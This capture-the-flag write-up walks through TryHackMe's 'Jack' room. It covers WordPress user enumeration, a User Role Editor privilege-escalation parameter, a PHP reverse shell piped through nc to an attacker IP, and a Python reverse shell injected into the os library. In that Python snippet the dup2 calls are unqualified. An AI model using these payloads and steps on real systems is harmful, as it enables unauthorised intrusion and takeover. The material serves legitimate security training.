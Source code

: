 # Jack
[TryHackMe room link](https://tryhackme.com/room/jack)

# Informations about the room

> Compromise a web server running Wordpress, obtain a low privileged user and escalate your privileges to root using a Python module.

# Open ports

22 OpenSSH 7.2p2

80 Apache httpd 2.4.18

# Enumeration

This webserver has wordpress

`WordPress version 5.3.2`

Users found with author IDs bruteforcing:
```console
[+] jack
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://jack.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] wendy
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] danny
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Password found:
```
[!] Valid Combinations Found:
 | Username: wendy, Password: REDACTED
```

# Privilege escalation

After logging in we are not admin

But there is a plugin, User Role editor, that is [vulnerable](https://www.wordfence.com/blog/2016/04/user-role-editor-vulnerability/) to privilege escalation  

We need to intercept a update profile request and append `&ure_other_roles=administrator` at the end

To get a reverse shell i used to modify the 404.php but for some reason it's not working so i edited the `hello dolly` plugin and added a reverse shell:

```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.37.155 1234 >/tmp/f');?>
```

There is a `reminder.txt` in jack's home directory:

`Please read the memo on linux file permissions, last time your backups almost got us hacked! Jack will hear about this when he gets back.`

There is a private ssh key in `/var/backups/id_rsa`

That is jack's private ssh key 

Linpeas found a `/opt/statuscheck`

It's a folder with a python script that runs every 2 minutes according to the logs:

```python
import os

os.system("/usr/bin/curl -s -I http://127.0.0.1 >> /opt/statuscheck/output.log")
```

The script is using the `os` library

We can add a python reverse shell at the end of the library file and get a callback after 2 minutes:
```python
import socket
import pty
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.37.155",7777))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```
